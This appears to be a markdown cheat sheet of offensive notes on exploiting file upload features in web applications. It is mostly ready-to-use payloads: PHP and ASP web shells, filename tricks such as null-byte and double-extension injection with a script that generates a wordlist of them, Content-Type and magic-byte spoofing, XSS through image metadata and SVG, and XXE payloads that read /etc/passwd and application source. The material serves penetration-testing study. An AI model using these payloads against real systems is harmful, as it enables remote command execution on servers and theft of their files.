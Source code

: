 # File Upload

Uploading user files has become a key feature for most modern web applications to allow the extensibility of web applications with user information.
The most common and critical attack caused by arbitrary file uploads is gaining remote command execution over the back-end server by uploading a web shell or uploading a script that sends a reverse shell.

**Example of Web Shell**

PHP
````
$ <?php system($_REQUEST['cmd']); ?> > shell.php
````
For .NET web applications, we can pass the cmd parameter with request('cmd') to the eval() function:
````
<% eval request('cmd') %>
````

## Bypassing Filters

**Bypass Client-Side Validation**

- Disable in devtools
- Use burp repeater

### Filters

#### Blacklist Filter 

**Blacklisting Extensions**

As the web application seems to be testing the file extension, our first step is to fuzz the upload functionality with a list of potential extensions and see which of them return the previous error message. Any upload requests that do not return an error message, return a different message, or succeed in uploading the file, may indicate an allowed file extension.

- https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP

#### Whitelist Filters

**Whitelisting Extensions**

Double Extension
````
shell.php.jpg
````

Character Injection

We can inject several characters before or after the final extension to cause the web application to misinterpret the filename and execute the uploaded file as a PHP script.
- %20
- %0a
- %00
- %0d0a
- /
- .\
- .
- …
- :

````
shell.php%00.jpg
shell.aspx:.jpg
````
````
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
````

#### Other filters

There are two common methods for validating the file content: Content-Type Header or File Content.

**Content-Type**

We need to find out what content types the application allows. Following the example of an app that only allows images, this means that it will only allow content types of the image/* style. This means that if we modify the content-type header of our file to a permitted one during upload, we can exploit this vulnerability.

````
$ wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-all-content-types.txt
$ cat web-all-content-types.txt | grep 'image/' > image-content-types.txt
````
Fuzzing to discover which is allowed.

**MIME-Type**

The second and more common type of file content validation is testing the uploaded file's MIME-Type. Multipurpose Internet Mail Extensions (MIME) is an internet standard that determines the type of a file through its general format and bytes structure.
This is usually done by inspecting the first few bytes of the file's content, which contain the File Signature or Magic Bytes. For example, if a file starts with (GIF87a or GIF89a), this indicates that it is a GIF image, while a file starting with plaintext is usually considered a Text file. If we change the first bytes of any file to the GIF magic bytes, its MIME type would be changed to a GIF image, regardless of its remaining content or extension.

````
$ echo "this is a text file" > text.jpg 
$ file text.jpg 
text.jpg: ASCII text

$ echo "GIF8" > text.jpg 
$file text.jpg
text.jpg: GIF image data
````

````
filename="shell.php"
Content-Type: image/jpg

GIF8
<?php system('whoami'); ?>
````


**XSS**

We can execute an XSS attack through the metadata of an image.
````
$ exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
$ exiftool HTB.jpg
...SNIP...
Comment                         :  "><img src=1 onerror=alert(window.origin)>
````
SVG
````
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
````

**XXE**

````
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
````

Example SVG
````
filename svg:  filename="shell.phar.svg"
Content-type: image/svg

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
<?php system($_GET['cmd']); ?>
````

